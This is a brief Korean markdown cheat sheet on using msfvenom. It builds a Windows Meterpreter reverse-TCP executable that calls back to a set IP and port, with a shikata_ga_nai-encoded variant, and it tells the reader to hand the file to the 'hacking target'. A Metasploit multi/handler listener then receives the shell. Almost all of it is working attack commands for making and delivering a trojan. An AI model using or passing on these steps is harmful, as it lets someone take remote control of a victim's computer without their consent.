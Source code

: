 ## msfvenom 사용법
```
root로 로그인 후,
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe lhost=192.168.123.112 lport=4444 -o /root/test.exe

그럼 /root/에 test.exe 파일이 생성됨. (test.exe 파일을 해킹 대상자에게 주어야함)

또는 msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -f exe -o payload.exe

```
> -p : 페이로드 옵션을 설정   -o : 파일 경로와 파일명 지정   -e : 인코딩 방식   -f : 파일 확장자 설정   --platform : 플랫폼 설정

```
msfconsle
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.123.112
set LPORT 4444

exploit -j
```
- - -
